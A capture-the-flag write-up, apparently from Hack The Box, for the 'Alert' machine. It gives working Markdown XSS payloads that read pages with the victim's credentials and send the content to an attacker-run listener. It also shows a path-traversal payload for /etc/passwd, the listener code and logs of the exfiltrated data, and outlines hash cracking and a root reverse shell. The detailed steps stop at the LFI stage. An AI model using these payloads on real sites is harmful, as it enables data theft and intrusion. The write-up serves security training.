








## Summary

The box starts with a `Markdown Viewer` running on port `80/TCP`. The `Uniform Resource Locator (URL)` indicates some `Cross-Site Scripting (XSS)` potential. On the `Contact Us` form it is possible to inject some `Markdown` and also just sending a `link` to receive a `callback`. So the `foothold` implies a `client-side attack`. To read the `page content` of the `bot` you can forge some `JavaScript` and send the `content` back by uploading it as `.md` file on the `Markdown Viewer` and then using the `Share Markdown` link in the `Contact Us` form for exfiltration. After decoding the content a `messages.php` endpoint can be found. Using the exact same technique with another payload to read the `content` of the `messages.php` reveals that the page is capable of reading `files` from the `filesystem`. This is called a `Local File Inclusion (LFI)` vulnerability. Leveraging this vulnerability to read the content of `/etc/passwd` to get the usernames `albert` and `david` and after that to read the content of the `Apache2` configuration files within `sites-enabled`. The `000-default.conf` in this directory shows the path to a `.htpasswd` file which can be read by using the `LFI` again. The file contains a `hash` for `albert` which can be cracked using `hashcat`. With the `password` for `albert` login via `SSH` is possible and also access to the `user.txt`. While doing `enumeration` a locally running `web server` on port `8080/TCP` can be found. Taking a closer look reveals that it is a `PHP web server` running as `root` using the `-S` parameter. The user `albert` has `write permission` to the `monitors` directory. For `privilege escalation` to `root` a `PHP reverse shell` needs to be dropped into this directory. After forwarding port `8080/TCP` and accessing the `reverse shell` within the `browser` or `curl` a `callback` as `root`. Now to the `root.txt` can be obtained.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
- [Directory Busting](#Directory-Busting)
- [Cross-Site Scripting (XSS)](#Cross-Site-Scripting-XSS)
- [Local File Inclusion (LFI)](#Local-File-Inclusion-LFI)
- [Foothold](#Foothold)
    - [Cracking the Hash](#Cracking-the-Hash)
- [user.txt](#usertxt)
- [Enumeration](#Enumeration)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
- [root.txt](#roottxt)

## Reconnaissance

### Port Scanning

A quick `port scan` showed only port `22/TCP` and port `80/TCP` open to work on.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.27.137
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 20:02 CET
Nmap scan report for 10.129.27.137
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://alert.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.96 seconds
```

### Enumeration of Port 80/TCP

We tried to access the box via the `IP address` and got `redirected` to `alert.htb`. Therefore we added it to our `/etc/hosts` file.

- [http://10.129.27.137/](http://10.129.27.137/)

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts   
127.0.0.1       localhost
127.0.1.1       kali
10.129.27.137   alert.htb
```

The `web stack` showed nothing really special in particular. The `?page=alert` part of the URL was kinda pointing into the direction of `Cross-Site Scripting (XSS)`.

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://alert.htb/
http://alert.htb/ [302 Found] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.27.137], RedirectLocation[index.php?page=alert], Title[Alert - Markdown Viewer]
http://alert.htb/index.php?page=alert [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.27.137], Title[Alert - Markdown Viewer]
```

As we accessed the `website` we found ourselves on a `Markdown Viewer` where we could upload `.md` files and also use the `Contact Us` form.

- [http://alert.htb/](http://alert.htb/)



## Directory Busting

We perform some `directory busting` in the background while we checked the `Markdown Viewer`.

```c
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://alert.htb/ -x php,md
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://alert.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,md
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 274]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/contact.php          (Status: 200) [Size: 24]
/uploads              (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
/css                  (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/messages             (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/messages.php         (Status: 200) [Size: 1]
<--- SNIP --->
```

## Cross-Site Scripting (XSS)

On the `Contact Us` form we found some `Cross-Site Scripting (XSS)` which actually reached out to our `web server`.

```c
[Click Me](http://10.10.14.86/x)
```



```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.27.137 - - [23/Nov/2024 20:08:52] code 404, message File not found
10.129.27.137 - - [23/Nov/2024 20:08:52] "GET /x) HTTP/1.1" 404 -
```

As next step we build some `JavaScript` to read the page content of the person whoever clicked on our payload before and send it back to our `web server`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/files]
└─$ cat test.md 
<script>
fetch('http://alert.htb/', { credentials: 'include' }) // Fetch the target page
    .then(response => response.text()) // Convert the response to text
    .then(data => {
        // Send the content via a GET request
        fetch('http://10.10.14.86:8000/exfil?data=' + encodeURIComponent(data));
    });
</script>
```

To catch it properly we fired up a custom `web server` written in `Python`. Maybe we overshot it at this point but it worked.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/serve]
└─$ cat webserver.py 
from http.server import BaseHTTPRequestHandler, HTTPServer
import logging

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        logging.info("Received Data: %s", post_data.decode('utf-8'))
        self.send_response(200)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=RequestHandler, port=80):
    logging.basicConfig(level=logging.INFO)
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    logging.info('Starting server on port %d...', port)
    httpd.serve_forever()

if __name__ == '__main__':
    run(port=8000)
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/serve]
└─$ python3 webserver.py
INFO:root:Starting server on port 8000...
```

To deliver our malicious `JavaScript` file we uploaded it on the `Markdown Viewer` and used the `Share Markdown` option in the bottom right corner.




We picked the `link` it generated for us and send it first in `Markdown` format through the `Contact Us` form. But that didn't execute. So we dropped the `link` without any sort of `formatting` and received a `callback`.





```c
http://alert.htb/visualizer.php?link_share=67423d5d927276.61010126.md
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/serve]
└─$ python3 webserver.py 
INFO:root:Starting server on port 8000...
10.10.14.86 - - [23/Nov/2024 21:23:46] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 21:23:46] "GET /exfil?data=%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%3Chead%3E%0A%20%20%20%20%3Cmeta%20charset%3D%22UTF-8%22%3E%0A%20%20%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1.0%22%3E%0A%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20href%3D%22css%2Fstyle.css%22%3E%0A%20%20%20%20%3Ctitle%3EAlert%20-%20Markdown%20Viewer%3C%2Ftitle%3E%0A%3C%2Fhead%3E%0A%3Cbody%3E%0A%20%20%20%20%3Cnav%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dalert%22%3EMarkdown%20Viewer%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dcontact%22%3EContact%20Us%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dabout%22%3EAbout%20Us%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Ddonate%22%3EDonate%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fnav%3E%0A%20%20%20%20%3Cdiv%20class%3D%22container%22%3E%0A%20%20%20%20%20%20%20%20%3Ch1%3EMarkdown%20Viewer%3C%2Fh1%3E%3Cdiv%20class%3D%22form-container%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20action%3D%22visualizer.php%22%20method%3D%22post%22%20enctype%3D%22multipart%2Fform-data%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22file%22%20name%3D%22file%22%20accept%3D%22.md%22%20required%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22submit%22%20value%3D%22View%20Markdown%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%3Cfooter%3E%0A%20%20%20%20%20%20%20%20%3Cp%20style%3D%22color%3A%20black%3B%22%3E%C2%A9%202024%20Alert.%20All%20rights%20reserved.%3C%2Fp%3E%0A%20%20%20%20%3C%2Ffooter%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E%0A%0A HTTP/1.1" 501 -
10.10.14.86 - - [23/Nov/2024 21:23:48] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 21:23:48] "GET /exfil?data=%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%3Chead%3E%0A%20%20%20%20%3Cmeta%20charset%3D%22UTF-8%22%3E%0A%20%20%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1.0%22%3E%0A%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20href%3D%22css%2Fstyle.css%22%3E%0A%20%20%20%20%3Ctitle%3EAlert%20-%20Markdown%20Viewer%3C%2Ftitle%3E%0A%3C%2Fhead%3E%0A%3Cbody%3E%0A%20%20%20%20%3Cnav%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dalert%22%3EMarkdown%20Viewer%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dcontact%22%3EContact%20Us%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dabout%22%3EAbout%20Us%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Ddonate%22%3EDonate%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fnav%3E%0A%20%20%20%20%3Cdiv%20class%3D%22container%22%3E%0A%20%20%20%20%20%20%20%20%3Ch1%3EMarkdown%20Viewer%3C%2Fh1%3E%3Cdiv%20class%3D%22form-container%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20action%3D%22visualizer.php%22%20method%3D%22post%22%20enctype%3D%22multipart%2Fform-data%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22file%22%20name%3D%22file%22%20accept%3D%22.md%22%20required%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22submit%22%20value%3D%22View%20Markdown%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%3Cfooter%3E%0A%20%20%20%20%20%20%20%20%3Cp%20style%3D%22color%3A%20black%3B%22%3E%C2%A9%202024%20Alert.%20All%20rights%20reserved.%3C%2Fp%3E%0A%20%20%20%20%3C%2Ffooter%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E%0A%0A HTTP/1.1" 501 -
10.129.27.137 - - [23/Nov/2024 21:23:53] code 501, message Unsupported method ('GET')
10.129.27.137 - - [23/Nov/2024 21:23:53] "GET /exfil?data=%3C!DOCTYPE%20html%3E%0A%3Chtml%20lang%3D%22en%22%3E%0A%3Chead%3E%0A%20%20%20%20%3Cmeta%20charset%3D%22UTF-8%22%3E%0A%20%20%20%20%3Cmeta%20name%3D%22viewport%22%20content%3D%22width%3Ddevice-width%2C%20initial-scale%3D1.0%22%3E%0A%20%20%20%20%3Clink%20rel%3D%22stylesheet%22%20href%3D%22css%2Fstyle.css%22%3E%0A%20%20%20%20%3Ctitle%3EAlert%20-%20Markdown%20Viewer%3C%2Ftitle%3E%0A%3C%2Fhead%3E%0A%3Cbody%3E%0A%20%20%20%20%3Cnav%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dalert%22%3EMarkdown%20Viewer%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dcontact%22%3EContact%20Us%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dabout%22%3EAbout%20Us%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Ddonate%22%3EDonate%3C%2Fa%3E%0A%20%20%20%20%20%20%20%20%3Ca%20href%3D%22index.php%3Fpage%3Dmessages%22%3EMessages%3C%2Fa%3E%20%20%20%20%3C%2Fnav%3E%0A%20%20%20%20%3Cdiv%20class%3D%22container%22%3E%0A%20%20%20%20%20%20%20%20%3Ch1%3EMarkdown%20Viewer%3C%2Fh1%3E%3Cdiv%20class%3D%22form-container%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20action%3D%22visualizer.php%22%20method%3D%22post%22%20enctype%3D%22multipart%2Fform-data%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22file%22%20name%3D%22file%22%20accept%3D%22.md%22%20required%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type%3D%22submit%22%20value%3D%22View%20Markdown%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Fform%3E%0A%20%20%20%20%20%20%20%20%20%20%3C%2Fdiv%3E%20%20%20%20%3C%2Fdiv%3E%0A%20%20%20%20%3Cfooter%3E%0A%20%20%20%20%20%20%20%20%3Cp%20style%3D%22color%3A%20black%3B%22%3E%C2%A9%202024%20Alert.%20All%20rights%20reserved.%3C%2Fp%3E%0A%20%20%20%20%3C%2Ffooter%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E%0A%0A HTTP/1.1" 501 -
```

After decrypting the `ecnoded` response using `BurpSuite` we saw the `?page=message` endpoint from our `directory busting` approach earlier.

```c
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages%
```

```c
        <a href="index.php?page=messages%
```

As a logical next step we tried to read the `messages.php` through the same technique as before and send the information back to us.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Alert/files]
└─$ cat test2.md 
<script>
fetch('http://alert.htb/messages.php', { credentials: 'include' }) // Fetch the target page
    .then(response => response.text()) // Convert the response to text
    .then(data => {
        // Send the content via a GET request
        fetch('http://10.10.14.86:8000/exfil?data=' + encodeURIComponent(data));
    });
</script>
```

We repeated each step after creating a second `.md` file and received a `callback` with the `content` of `messages.php`.

```c
10.10.14.86 - - [23/Nov/2024 22:07:30] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 22:07:30] "GET /exfil?data=%0A HTTP/1.1" 501 -
10.10.14.86 - - [23/Nov/2024 22:07:32] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 22:07:32] "GET /exfil?data=%0A HTTP/1.1" 501 -
10.129.27.137 - - [23/Nov/2024 22:07:40] code 501, message Unsupported method ('GET')
10.129.27.137 - - [23/Nov/2024 22:07:40] "GET /exfil?data=%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A HTTP/1.1" 501 -
```

After we `decoded` it we noticed that `messages.php` was capable of reading files from the `filesystem` which if we could abuse it, would lead us to `Local File Inclusion (LFI)`.

```c
<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>
```

## Local File Inclusion (LFI)

With that being said we forged another `.md` file with an `payload` to read `/etc/passwd` and send the content back to us.

```c
<script>
fetch('http://alert.htb/messages.php?file=../../../../../etc/passwd', { credentials: 'include' }) // Fetch the target page
    .then(response => response.text()) // Convert the response to text
    .then(data => {
        // Send the content via a GET request
        fetch('http://10.10.14.86:8000/?data=' + encodeURIComponent(data));
    });
</script>
```

As before we repeated all the steps and got a callback on our listener.

```c
10.10.14.86 - - [23/Nov/2024 22:18:01] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 22:18:01] "GET /?data=%0A HTTP/1.1" 501 -
10.10.14.86 - - [23/Nov/2024 22:18:02] code 501, message Unsupported method ('GET')
10.10.14.86 - - [23/Nov/2024 22:18:02] "GET /?data=%0A HTTP/1.1" 501 -
10.129.27.137 - - [23/Nov/2024 22:18:07] code 501, message Unsupported method ('GET')
